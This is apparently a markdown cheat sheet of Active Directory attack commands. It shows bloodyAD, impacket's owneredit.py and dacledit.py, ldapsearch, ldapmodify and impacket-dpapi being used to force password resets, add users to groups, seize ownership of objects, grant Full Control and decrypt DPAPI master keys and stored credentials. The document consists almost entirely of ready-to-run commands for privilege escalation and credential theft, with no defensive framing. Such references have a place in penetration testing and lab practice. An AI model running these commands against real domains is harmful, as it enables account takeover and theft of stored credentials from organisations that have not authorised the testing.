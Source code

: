 


### 1. ForceChange User password using BloodyAD


If we have `ForceChangePassword` over a user, we can use bloodyAD to change their password


```bash
bloodyAD --host $IP -u 'ownedUser' -p 'password' set password 'targetuser' 'password-to-be-set'
```



### 2. Add a user to a group using BloodyAD


If we have `AddSelf` for a user or `GenericAll`, we can add them to a group using bloodyAD


```bash
bloodyAD --host $IP -d domain -u 'owneduser' -p 'password' add groupMember "GroupName" "User-to-be-added"
```




### 3. Change OwnerShip of a user  using ownerdit.py


If we have WriteOwner right over a user object, we can use `owneredit.py` to change the object ownership


```bash
owneredit.py domain/owneruser -target 'user-whose-ownership-is-to-be-changed' -action write -new-owner 'new-owner'
```





### 4. Granting GenericAll privilege to abuse ownership of a user object using dacledit.py


```bash
dacledit.py -action write -rights 'Full Control' -principal 'owneduser' -target 'targetuser' 'domain/owneduser:password'
```





### 5. Finding DN of a user with ldapsearch


```bash
ldapsearch -x -H ldap://<IP> -D "username@domain" -W -b "dc=domain,dc=com" "(sAMAccountName=<username>)"
```





### 6.  LdapModify with an LDIF file


```bash
ldapmodify -x -H ldap://<ip> -D "username@domain" -W -f <ldif_file
```





### 7. Decrypting DPAPI master key 


```bash
impacket-dpapi -master <masterkeyfile> -sid SID -password <password_of_the_user>
```




### 8. Decrypting DPAPI credential blob


```bash
impacket-dpapi -key <decrypted_master_key> -cred <encrypted_cred_blob>
```